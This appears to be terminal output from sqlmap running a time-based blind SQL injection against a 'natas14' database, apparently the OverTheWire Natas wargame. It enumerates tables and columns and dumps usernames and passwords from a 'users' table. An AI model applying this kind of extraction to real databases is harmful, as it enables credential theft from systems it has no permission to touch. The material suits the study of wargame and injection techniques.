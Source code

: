 ```
[12:32:21] [WARNING] time-based comparison requires larger statistical model, please wait........................... (done)         
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[12:32:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:32:38] [INFO] adjusting time delay to 1 second due to good response times
natas14
[12:32:58] [INFO] fetching tables for database: 'natas14'
[12:32:58] [INFO] fetching number of tables for database 'natas14'
[12:32:58] [INFO] retrieved: 
[12:32:58] [INFO] retrieved: 1
[12:33:00] [INFO] retrieved: 
[12:33:00] [INFO] retrieved: u
[12:33:09] [ERROR] invalid character detected. retrying..
[12:33:09] [WARNING] increasing time delay to 2 seconds
sers
[12:33:33] [INFO] fetching columns for table 'users' in database 'natas14'
[12:33:33] [INFO] retrieved: 
[12:33:33] [INFO] retrieved: 2
[12:33:38] [INFO] retrieved: 
[12:33:38] [INFO] retrieved: username
[12:34:27] [INFO] retrieved: 
[12:34:27] [INFO] retrieved: 
[12:34:41] [ERROR] invalid character detected. retrying..
[12:34:41] [WARNING] increasing time delay to 3 seconds
[12:34:55] [ERROR] invalid character detected. retrying..
[12:34:55] [WARNING] increasing time delay to 4 seconds
password
[12:36:47] [INFO] fetching entries for table 'users' in database 'natas14'
[12:36:47] [INFO] fetching number of entries for table 'users' in database 'natas14'
[12:36:47] [INFO] retrieved: 
[12:36:47] [INFO] retrieved: 5
[12:36:56] [INFO] retrieved: 
[12:36:56] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
Dl2FB9O9op
[12:39:31] [INFO] retrieved: 
[12:39:31] [INFO] retrieved: bob
[12:40:09] [INFO] retrieved: 
[12:40:09] [INFO] retrieved: ikWGV9zc1i
[12:42:41] [INFO] retrieved: 
[12:42:41] [INFO] retrieved: ch
[12:43:19] [ERROR] invalid character detected. retrying..
[12:43:19] [WARNING] increasing time delay to 5 seconds
arlie
[12:44:22] [INFO] retrieved: 
[12:44:22] [INFO] retrieved: 
[12:44:42] [ERROR] invalid character detected. retrying..
[12:44:42] [WARNING] increasing time delay to 6 seconds
keep up the good^C
[12:51:08] [WARNING] Ctrl+C detected in dumping phase                                                                               
Database: natas14
Table: users
[2 entries]
+------------+----------+
| password   | username |
+------------+----------+
| Dl2FB9O9op | bob      |
| ikWGV9zc1i | charlie  |
+------------+----------+

```